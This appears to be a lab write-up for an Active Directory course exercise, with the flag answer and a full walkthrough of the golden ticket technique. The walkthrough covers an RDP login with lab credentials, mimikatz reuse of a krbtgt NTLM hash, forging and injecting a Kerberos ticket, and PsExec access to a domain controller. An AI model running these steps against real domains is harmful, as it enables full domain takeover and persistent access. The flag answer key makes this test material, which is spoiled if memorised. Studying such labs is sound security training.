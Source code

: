Topics: Golden Tickets
# Questions 2
Start VM Group 2 and try to execute the golden ticket persistence technique to get access to DC1 and get the flag located on the administrator's desktop.
# Answer
OS{621b7b6a7b29802805c31e2b04d10cc1}

xfreerdp /cert-ignore /u:jen /p:Nexus123! /d:corp.com /v:192.168.175.74

PS C:\tools> .\mimikatz.exe
mimikatz # privilege::debug

# Reuse the krbtgt hash from previous questions
...
Domain : CORP / S-1-5-21-1987370270-658905905-1781884369
RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : 1693c6cefafffc7af11ef34d1c788f47
...
mimikatz # kerberos::purge
mimikatz # kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt
...
Golden ticket for 'jen @ corp.com' successfully submitted for current session
...
mimikatz # misc::cmd
C:\Tools\SysinternalsSuite>.\PsExec.exe \\dc1 cmd.exe
C:\Users\Administrator\Desktop>type flag.txt
OS{621b7b6a7b29802805c31e2b04d10cc1}